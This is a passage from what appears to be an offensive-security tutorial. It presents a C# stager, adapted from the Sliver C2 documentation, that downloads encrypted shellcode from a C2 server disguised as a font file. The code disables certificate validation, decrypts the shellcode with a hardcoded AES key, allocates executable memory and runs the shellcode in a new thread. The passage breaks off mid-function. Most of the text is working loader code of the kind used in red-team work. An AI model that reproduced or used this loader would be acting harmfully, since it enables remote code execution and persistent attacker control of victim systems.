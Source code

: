 In this case, I will use the _stager_ from the [Sliver Documentation](https://sliver.sh/docs?name=Stagers). So this will be the code for _TestClass.cs_. This code will download from our shellcode from the C2, decrypt it, allocate the necessary memory, and execute it in a thread.

```cs
using System;
using System.Collections.Generic;
using System.IO;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;

[ComVisible(true)]
public class LetsDoit
{
    private static string AESKey = "D(G+KbPeShVmYq3t";
    private static string AESIV = "8y/B?E(G+KbPeShV";
    private static string url = "http://192.168.3.2:8000/fonts.woff";

 [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

 [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

 [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public LetsDoit()
    {
        ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
        System.Net.WebClient client = new System.Net.WebClient();
        byte[] shellcode = client.DownloadData(url);

        List<byte> l = new List<byte> { };

        for (int i = 16; i <= shellcode.Length - 1; i++)
        {
            l.Add(shellcode[i]);
        }

        byte[] actual = l.ToArray();

        byte[] decrypted;

        decrypted = Decrypt(actual, AESKey, AESIV);
        IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)decrypted.Length, 0x3000, 0x40);
        Marshal.Copy(decrypted, 0, addr, decrypted.Length);
        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }

    private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
    {
        byte[] key = Encoding.UTF8.GetBytes(AESKey);
        byte[] IV = Encoding.UTF8.GetBytes(AESIV);

        using (Aes aesAlg = Aes.Create())
        {
            aesAlg.Key = key;
```